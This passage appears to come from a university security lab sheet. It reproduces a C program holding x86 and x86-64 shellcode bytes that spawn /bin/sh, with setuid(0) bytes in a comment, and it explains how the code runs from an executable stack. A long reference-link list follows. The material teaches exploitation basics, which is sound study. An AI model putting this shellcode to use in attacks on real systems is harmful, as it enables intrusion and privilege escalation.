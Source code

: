 [lab-zip]: https://cits3007.arranstewart.io/labs/lab-05-code.zip

`cd` into the `shellcode` directory, and take a look at
`call_shellcode.c` (reproduced below):

```{.C .numberLines}
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

// Binary code for setuid(0)
// 64-bit:  "\x48\x31\xff\x48\x31\xc0\xb0\x69\x0f\x05"
// 32-bit:  "\x31\xdb\x31\xc0\xb0\xd5\xcd\x80"


const char shellcode[] =
#if __x86_64__
  "\x48\x31\xd2\x52\x48\xb8\x2f\x62\x69\x6e"
  "\x2f\x2f\x73\x68\x50\x48\x89\xe7\x52\x57"
  "\x48\x89\xe6\x48\x31\xc0\xb0\x3b\x0f\x05"
#else
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
#endif
;

int main(int argc, char **argv) {
   char code[500];

   strcpy(code, shellcode);
   int (*func)() = (int(*)())code;

   func();
   return 1;
}
```

The purpose of this program is to demonstrate that our
shellcode byte-sequence does indeed invoke the shell
`/bin/sh`.

The byte sequences are stored in the array `shellcode` --
observe that the 32-bit version starts with "`\x31\xc0\x50`",
which is the byte sequence we get from compiling our assembly code.

What about line 27? The syntax C uses for this is unfortunately a bit
obscure -- but the gist of it is that we are saying "Declare `func` to be a pointer to some
*function* (i.e., a blob of executable code sitting in memory), and point it at the
address of the array `code`".
Usually, the bytes sitting in `code` would *not* be
executable, because they are
part of the call stack; but in our Makefile we pass the option "`-z execstack`" to GCC,
which says to make the stack memory segment
executable. Line 29 then invokes that function pointer, just as if it were a normal
function, and that will execute the code.


[sde]: https://cits3007.arranstewart.io/faq/#cits3007-sde
[codespaces]: https://code.visualstudio.com/docs/remote/codespaces  {target=_blank}
[differences]: https://cits3007.arranstewart.io/labs/lab00-mac-02-arm64.html#differences {target=_blank}
[docker]: https://docs.docker.com/get-started/overview/  {target=_blank}
[daemon]: https://en.wikipedia.org/wiki/Daemon_(computing)
[arch-sysctl]: https://wiki.archlinux.org/title/Sysctl
[canaries]: https://www.sans.org/blog/stack-canaries-gingerly-sidestepping-the-cage/
[gcc-stack-protector]: https://developers.redhat.com/articles/2022/06/02/use-compiler-flags-stack-protection-gcc-and-clang#stack_canary
[gcc-stack-man]: https://gcc.gnu.org/onlinedocs/gcc-12.2.0/gcc/Instrumentation-Options.html#Instrumentation-Options
[jit-compiler]: https://en.wikipedia.org/wiki/Just-in-time_compilation
[bytecode]: https://en.wikipedia.org/wiki/Bytecode
[self-modifying-code]: https://en.wikipedia.org/wiki/Self-modifying_code
[copy-protection]: https://en.wikipedia.org/wiki/Copy_protection
[bendersky-jit]: https://eli.thegreenplace.net/2013/11/05/how-to-jit-an-introduction
[shellcode]: https://en.wikipedia.org/wiki/Shellcode
[shell]: https://en.wikipedia.org/wiki/Shell_(computing)
[man-execve]: https://man7.org/linux/man-pages/man2/execve.2.html
[teensy]: http://www.muppetlabs.com/~breadbox/software/tiny/teensy.html
[^assembly]: Also called [assembly][assembly], assembler language, assembler
[assembly]: https://en.wikipedia.org/wiki/Assembly_language
[^registers]: A small, named memory cell used by the processor.
[x86-asm-guide]: https://www.cs.virginia.edu/~evans/cs216/guides/x86.html
[^objdump]: You can replicate this by saving the assembly code as
[nasm]: https://www.nasm.us
[func-ptr-decl]: https://www.cprogramming.com/tutorial/function-pointers.html#:~:text=Function%20Pointer%20Syntax
[personality]: https://man7.org/linux/man-pages/man2/personality.2.html
[man-fork]: https://man7.org/linux/man-pages/man2/fork.2.html
[man-exec]: https://man7.org/linux/man-pages/man3/exec.3.html
[register]: https://en.wikipedia.org/wiki/Processor_register
[pytute]: https://developers.google.com/edu/python/introduction
[^mem-seg]: The man page for [proc](https://linux.die.net/man/5/proc) explains
[^main_line]: A little math tells us that (*location_in_main* $-$
[gdb-conv-var]: https://sourceware.org/gdb/onlinedocs/gdb/Convenience-Vars.html
[^intptr]: Technically, it would be more appropriate to treat `$saved_eip`
[x-command]: https://visualgdb.com/gdbreference/commands/x